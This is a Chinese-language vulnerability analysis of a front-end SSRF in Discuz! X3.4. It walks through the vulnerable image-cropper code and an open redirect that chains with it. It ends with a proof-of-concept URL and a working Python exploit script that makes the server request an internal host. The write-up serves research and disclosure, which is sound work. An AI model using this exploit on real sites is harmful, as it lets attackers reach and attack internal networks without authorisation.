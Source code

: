 # Discuz x3.4 前台ssrf

> 原文：[https://www.zhihuifly.com/t/topic/2872](https://www.zhihuifly.com/t/topic/2872)

# Discuz! X3.4 前台ssrf

## 一、漏洞简介

DDiscuz! X3.4 source/module/misc/misc_imgcropper.php页面中的cutimg参数，因为应用程序的远程下载功能过滤不严，配合前台任意URL跳转漏洞，可以造成SSRF漏洞，可以对与外部隔离的内部环境进行探测和攻击

## 二、漏洞影响

*   <= x3.4

*   windows

*   php>5.3+php-curl<=7.54

*   DZ开放在80端口

## 三、复现过程

### 漏洞分析

**本地ssrf**

/source/module/misc/misc_imgcropper.php 55行

```
 require_once libfile('class/image');	$image = new image();	$prefix = $_GET['picflag'] == 2 ? $_G['setting']['ftp']['attachurl'] : $_G['setting']['attachurl'];	if(!$image->Thumb($prefix.$_GET['cutimg'], $cropfile, $picwidth, $picheight)) {		showmessage('imagepreview_errorcode_'.$image->errorcode, null, null, array('showdialog' => true, 'closetime' => true));	}
$prefix`可以通过GET传递`$_GET['picflag']`为2进行三元操作，变成了默认的`/`，然后和`$_GET['cutimg']`进行拼接作为第一个参数传进了`$image->Thumb 
```

source/class/class_image.php 51行

```
 function Thumb($source, $target, $thumbwidth, $thumbheight, $thumbtype = 1, $nosuffix = 0) {		$return = $this->init('thumb', $source, $target, $nosuffix);	} 
```

拼接后的参数作为`$source`又传进了init函数

source/class/class_image.php 118行

```
 function init($method, $source, $target, $nosuffix = 0) {		global $_G;		$this->errorcode = 0;		if(empty($source)) {			return -2;		}		$parse = parse_url($source);		if(isset($parse['host'])) {			if(empty($target)) {				return -2;			}			$data = dfsockopen($source);			$this->tmpfile = $source = tempnam($_G['setting']['attachdir'].'./temp/', 'tmpimg_');			if(!$data || $source === FALSE) {				return -2;			}			file_put_contents($source, $data);		} 
```

可以发现如果`$source`经过`parse_url`的解析结果中如果包含host字段就不结束流程，然后将`$source`参数传入`dfsockopen`函数。Php中的`parse_url`函数是可以对`//`开头的域名进行解析的, `$source`本身就是`/`开头，因此只需要通过开始的`$_GET['cutimg']`注入`/www.0-sec.org，变成`//www.0-sec.org`即可继续执行。

![image](img/5900b0139b39025222e4523ecfc7b008.png)

source/function/function_core.php 199行

```
function dfsockopen($url, $limit = 0, $post = '', $cookie = '', $bysocket = FALSE, $ip = '', $timeout = 15, $block = TRUE, $encodetype  = 'URLENCODE', $allowcurl = TRUE, $position = 0, $files = array()) {	require_once libfile('function/filesock');	return _dfsockopen($url, $limit, $post, $cookie, $bysocket, $ip, $timeout, $block, $encodetype, $allowcurl, $position, $files);} 
```

进入dfsockopen函数后，我们构造的字符串变为$url，然后传入了_dfsockopen函数。

dz/source/function/function_filesock.php 31行

![image](img/45d719060b8794fdcdb3f6c84d497c5e.png)

发起了curl请求，就是这里触发了ssrf，这里的现有使用后parse_url解析了一次$url，和上面的解析是一样的，然后又进行了拼接成为了curl的地址。

![image](img/ccc1c5c5114e38f6b7cba687bcdd64d2.png)

其$scheme为空，如果我们为cutimg传入/dz//member.php，那么到就会变成://dz//member.php

![image](img/c1b3040fec0be94c6f648dba4ddfc52c.png)

在php的curl中我们尝试访问://dz/forum.php

![image](img/ab8f93f1104928b0061ce63d349ec66f.png)

可以发现无指定协议的默认就是http协议，://是代表访问本地dz/forum.php表示路径和path，因此能够访问首页，到这里就有了一个可以对通网站下进行ssrf的漏洞点。

Curl的配置当中开启了跳转

![image](img/302d6a1ee153bdb59b225f7a16aaaf5d.png)

再找到一个站内的url跳转，就能绕过站内curl的限制，实现真正的ssrf。

### 前台任意url跳转

/source/class/class_member.php 310行

![image](img/8448323ba66aa6a598e8b9bf61484e97.png)

调用了dreferer()结果作为跳转地址，继续跟进该函数。

source/function/function_core.php 1498行

![image](img/f158b3b4b79c540f0cf12877d27a5c24.png)

`$_G['referer']`这个参数我们可控，同样使用了`parse_url`进行了解析，首先对协议进行了判断，需要属于`http/https`。

然后又对host字段和`$_SERVER['HTTP_HOST']`进行了对比，判断是否在同一个域名下，因为攻击中是通过curl发起的请求，$_SERVER[‘HTTP_HOST’]此时为空，但是和www.进行了，因此这里域名为`www.`即可绕过判断成功注入location字段

此时处理跳转的是php的curl，curl这里会因为`#@`出现解析问题，会跳转到192.168.2.63:6666，也就是形成ssrf。

![image](img/5b99face9120476041a84c6e06d09191.png)

站内ssrf->前台get型的任意url跳转->ssrf漏洞

**总结**：

因为应用程序的远程下载功能过滤不严，利用php中的parse_url还有curl解析特性，配合前台任意URL跳转漏洞，可以造成SSRF漏洞。

### poc

```
htp://www.0-sec.org/code-src/dz/Discuz_TC_BIG5/upload/member.php?mod=logging&action=logout&XDEBUG_SESSION_START=13904&referer=http://localhost%23%40www.baidu.com&quickforward=1 
```

### python 脚本

```
# coding=utf-8
import requests
import re
from urllib.parse import urlparse, quote
from urllib import parse
if __name__ == "__main__":
    url = "http://192.168.66.129/dz/"
    ssrf_target = "192.168.0.36:6666"
    path = urlparse(url).path
    payload = quote(
        "/member.php?mod=logging&action=logout&quickforward=1&referer=http://www.%23%40{ssrf_target}".format(
            ssrf_target=ssrf_target))
    s = requests.Session()
    html = s.get(url).text
    searchObj = re.search(r'name="formhash" value="(.*?)"', html, re.M | re.I)
    formhash = searchObj.group(1)
    rs = s.post(
        url + "misc.php?mod=imgcropper&imgcroppersubmit=1&formhash={formhash}&picflag=2&cutimg={path}{payload}".format(
            formhash=formhash, path=path, payload=payload))
    exit() 
```

![image](img/b9edbfc7a606a3a41d2655d332b6d4ea.png)

## 参考链接

> [http://www.rai4over.cn/2018/12/07/Discuz-3-4%E5%89%8D%E5%8F%B0%E6%9C%89%E9%99%90%E5%88%B6SSRF%E6%BC%8F%E6%B4%9E/index.html](http://www.rai4over.cn/2018/12/07/Discuz-3-4%E5%89%8D%E5%8F%B0%E6%9C%89%E9%99%90%E5%88%B6SSRF%E6%BC%8F%E6%B4%9E/index.html)